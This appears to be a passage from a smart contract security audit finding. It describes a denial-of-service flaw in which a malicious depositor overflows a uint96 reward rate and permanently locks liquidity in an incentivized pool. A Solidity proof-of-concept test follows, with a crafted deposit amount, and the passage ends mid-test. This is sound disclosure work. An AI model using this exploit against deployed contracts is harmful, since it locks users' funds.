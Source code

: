 ```solidity
function _newRewardPerToken(IncentivizedPoolId id, address token) internal view override returns (uint256) {
    uint256 _totalSupply = poolStates[id].totalLiquidity;
    RewardData memory _state = poolRewardData[id][token];
    if (_totalSupply == 0) return _state.rewardPerTokenStored;

    uint256 lastUpdateTimeApplicable = block.timestamp < _state.endTimestamp ? block.timestamp : _state.endTimestamp;

    return _state.rewardPerTokenStored
        + ((((lastUpdateTimeApplicable - _state.lastUpdateTime) * _state.ratePerSec) * UNIT) / _totalSupply);
}
```

If the distribution amount is close to overflowing `uint96` at some point, the locally scoped `_newRewardPerToken` to which `_state.rewardPerTokenStored` is assigned will overflow and the pool and incentives will be permanently locked.

While there was another issue reported on this overflow which can occur without the need for a malicious action when considering valuable tokens with low decimal precision, the recommended mitigation of increasing the size of the storage variable is not sufficient in this case. The malicious depositor is free to create tokens such that the token distribution can always be adjusted such that it is close to overflowing `uint256` to trigger this attack.

**Proof of Concept:** This following test should be placed within `BasicIncentiveLogic.t.sol`:

```solidity
function test_MaliciousToken() public {
    MockERC20 token3 = new MockERC20("TEST", "TEST", 18);
    token3.mint(address(this), 2 ** 128);
    token3.approve(address(logic), 2 ** 128);

    PoolId poolKey;
    IncentivizedPoolId poolId;
    address lpToken = address(7);

    poolKey = createPoolKey(address(1), address(2), 3000).toId();
    poolId = IncentivizedPoolKey({ id: poolKey, lpToken: lpToken }).toId();

    manager.setListedPool(poolId, true);
    logic.updateDefaultFee(0);

    address[] memory systems = new address[](1);
    systems[0] = address(logic);

    manager.notifyAddLiquidty(systems, poolKey, lpToken, user1, int256(1 ether));

    uint256 amountNotOverflow = 47917192688627071376575381162608000;
    uint256 duration = 1 weeks;

    logic.depositRewards(poolId, address(token3), amountNotOverflow, duration);

    // The malicious user sets the ratePerSec to the maximum number that uint96 can hold
    (, , uint256 ratePerSec, ) = logic.poolRewardData(poolId, address(token3));
    assertEq(ratePerSec, type(uint96).max);

    // After 2 seconds, the pool is completely locked because of overflowing when computing
    // the _newRewardPerToken and downcasting to uint96
    skip(2);

    // The pool is completely DoSd and the user that has liquidity in the pool lost all their
    // funds because they can not remove them
    vm.expectRevert();
    manager.notifyRemoveLiquidty(systems, poolKey, lpToken, user1, -int256(1 ether));
```